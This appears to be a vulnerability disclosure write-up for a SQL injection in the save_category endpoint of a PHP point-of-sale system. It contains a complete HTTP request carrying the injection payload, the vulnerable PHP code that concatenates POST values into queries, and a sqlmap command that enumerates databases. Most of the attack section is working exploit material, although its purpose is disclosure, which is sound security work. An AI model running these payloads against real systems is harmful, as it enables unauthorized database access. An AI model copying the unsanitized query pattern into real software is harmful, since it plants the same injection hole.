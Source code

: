 Download sourcecode from https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

Deploy the system

The sql injection url: http://172.31.171.96/kruxton/ajax.php?action=save_category Vulnerability trigger parameter: name(post parameter)

The http message is 

```
POST /kruxton/ajax.php?action=save_category HTTP/1.1
Host: 172.31.171.96
Content-Length: 16
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=trdjs8jl8md348msi4p8aq5tu9
Connection: close

name=1'or 1=1%2
```

sourcecode:

```php
	function save_category(){
		extract($_POST);
		$data = "";
		foreach($_POST as $k => $v){
			if(!in_array($k, array('id')) && !is_numeric($k)){
				if(empty($data)){
					$data .= " $k='$v' ";
				}else{
					$data .= ", $k='$v' ";
				}
			}
		}
		$check = $this->db->query("SELECT * FROM categories where name ='$name' ".(!empty($id) ? " and id != {$id} " : ''))->num_rows;
		if($check > 0){
			return 2;
			exit;
		}
		if(empty($id)){
			$save = $this->db->query("INSERT INTO categories set $data");
		}else{
			$save = $this->db->query("UPDATE categories set $data where id = $id");
		}

		if($save)
			return 1;
	}
```

![image-20230311161649893](D:\网安学习\tryCVE\kruxton-2.assets\image-20230311161649893.png)

sqlmap command: 

```
sqlmap -u http://172.31.171.96/kruxton/ajax.php?action=save_category --data "name=1" --batch --dbs
```

inject result: 

![image-20230311164750182](D:\网安学习\tryCVE\kruxton-2.assets\image-20230311164750182.png)

![image-20230311164806021](D:\网安学习\tryCVE\kruxton-2.assets\image-20230311164806021.png)